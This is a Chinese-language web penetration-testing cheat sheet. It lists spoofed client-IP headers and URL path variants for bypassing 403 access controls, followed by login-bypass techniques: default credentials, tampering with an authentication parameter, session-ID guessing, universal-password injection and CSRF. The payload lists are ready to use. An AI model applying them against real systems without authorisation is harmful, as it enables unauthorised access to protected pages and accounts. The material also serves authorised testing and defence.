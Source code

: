 # 403 IP地址绕过与文件名绕过
```

X-Forwarded-For:127.0.0.1 

X-Forwarded:127.0.0.1 

Forwarded-For:127.0.0.1 

Forwarded:127.0.0.1 

X-Forwarded-Host:127.0.0.1 

X-remote-IP:127.0.0.1 

X-remote-addr:127.0.0.1 

True-Client-IP:127.0.0.1 

X-Client-IP:127.0.0.1 

Client-IP:127.0.0.1 

X-Real-IP:127.0.0.1 

Ali-CDN-Real-IP:127.0.0.1 

Cdn-Src-Ip:127.0.0.1 

Cdn-Real-Ip:127.0.0.1 

CF-Connecting-IP:127.0.0.1 

X-Cluster-Client-IP:127.0.0.1 

WL-Proxy-Client-IP:127.0.0.1 

Proxy-Client-IP:127.0.0.1 

Fastly-Client-Ip:127.0.0.1 

True-Client-Ip:127.0.0.1 
```

```

site.com/admin => 403

site.com/admin/ => 200

site.com/admin// => 200

site.com//admin// => 200

site.com/admin/* => 200

site.com/admin/*/ => 200

site.com/admin/. => 200

site.com/admin/./ => 200

site.com/./admin/./ => 200

site.com/admin/./. => 200

site.com/admin/./. => 200

site.com/admin? => 200

site.com/admin?? => 200

site.com/admin??? => 200

site.com/admin..;/ => 200

site.com/admin/..;/ => 200

site.com/%2f/admin => 200

site.com/%2e/admin => 200

site.com/admin%20/ => 200

site.com/admin%09/ => 200

site.com/%20admin%20/ => 200
```

# 登录框绕过

1. 网络嗅探

通过网络嗅探工具探测局域网中传输的明文用户名和密码。有些应用程序采用GET方式发送登录请求，可能导致GET的URL请求内容被缓存在代理服务器或者Web服务器端，导致用户名和密码泄漏

2. 默认或可猜测的用户账号

大多数开源软件或商业软件提供的基于网络配置和管理的接口，通常都会有一些默认的用户名和密码。

例如，一般默认的用户名是：

admin、administrator、root、system、guest等，而默认的密码也根据硬件和软件的不同而不同，可尝试一下这些密码：

password、admin、guest、12345等

3. 直接访问内部URL

使用Spider工具找到含有

admin、manager、login、administrator等词语的路径，尝试使用普通的登录用户访问这些URL，从而获得管理员的权限

4. 修改参数绕过认证

应用程序可能会使用一个参数或一个隐藏的域表示一个用户是否经过了验证。通过修改这些参数，从而被认为是已经认证过的用户

例如:

http://www.xxx.xom/userinfo.jsp?authenticated=no

通过修改authenticated参数为yes,

http://www.xxx.xom/userinfo.jsp?authenticated=yes

然后就可以通过认证，直接访问内部页面。

5. 可猜测的SessionID

利用规律，猜测到一个有效的SessionID，然后通过修改请求中的SessionID为一个预测到的有效SessionID，从而冒充会话的真正拥有者，绕过认证环节。

6. 注入问题

利用万能密码登录系统，绕过认证环节

7. CSRF

利用CSRF漏洞在用户不知情的情况下，利用用户的会话进行敏感操作，从而绕过认证




